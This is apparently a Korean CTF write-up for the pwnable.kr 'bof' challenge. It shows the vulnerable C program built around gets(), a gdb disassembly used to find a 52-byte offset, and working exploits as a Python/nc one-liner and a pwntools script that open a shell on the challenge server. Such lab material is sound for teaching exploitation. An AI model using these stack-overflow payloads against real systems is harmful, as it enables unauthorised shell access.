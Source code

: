 ```yaml
---
title: "[pwnable.kr]Toddler/bof"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180913
modify_date: 2018-09-13
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


## keyword : Stack Canary

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

### 0x01. Staic Analysis

main에서 func함수를 호출하는데 인자 값으로 `0xdeadbeef`값을 전달한다.

func 함수에서 key값으로 `0xdeadbeef`를 받고, 사용자로 부터 입력 값을 받아 `overflowme` 배열에 저장한다.

<u>이때 overflowme배열은 32byte크기지만, gets함수로 입력을 받아 buffer overflow가 발생한다.</u>

그리고 key값이 `0xcafebabe` 인지 체크하고 맞으면 쉘을 실행한다.

**즉, buffer overflow를 시켜 func함수의 인자 값을 `0xcafebabe`로 변조하면 문제가 풀린다.**

-----

### 0x02. Dynamic Analysis

이제 func함수의 인자 값이 들어가는 스택 주소와, overflowme 배열의 주소의 거리를 구해야한다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

`func+29` 부분을 보면 oeverflowme 배열의 주소를 eax에 저장하는데, `overflowme` 배열의 주소는 `ebp-0x2c` 이다. (0x2c = 44)

그리고 `func+40` 부분을 보면 func함수의 인자 값과 `0xcafebabe`와 비교하는데 이때 인자 값의 주소는 `ebp+0x8` 이다.

**따라서 overflowme 배열과 key값(func함수의 인자 값)의 주소의 거리는 52byte가 된다.**

-----

### 0x03. Exploit

그럼 이제 52byte의 쓰레기 값을 넣고, `0xcafebabe` 값을 넣어 `0xdeadbeef` 값을 변조시키자.

```
root@ubuntu:~/pwnable/bof# (python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
cat flag
daddy, I just pwned a buFFer :)
```

끄읏 :)

-----

##### python

```python
from pwn import *

conn = remote("pwnable.kr", 9000)

payload = "A"*52
payload += p32(0xcafebabe)

conn.sendline(payload)
conn.interactive()
```

```
root@ubuntu:~/pwnable/bof# python ex.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -l
total 3748
-r-xr-x--- 1 root bof     7348 Sep 12  2016 bof
-rw-r--r-- 1 root root     308 Oct 23  2016 bof.c
-r--r----- 1 root bof       32 Jun 11  2014 flag
-rw------- 1 root root 3812010 Nov 14 21:45 log
-rw-r--r-- 1 root root       0 Oct 23  2016 log2
-rwx------ 1 root root     760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

-----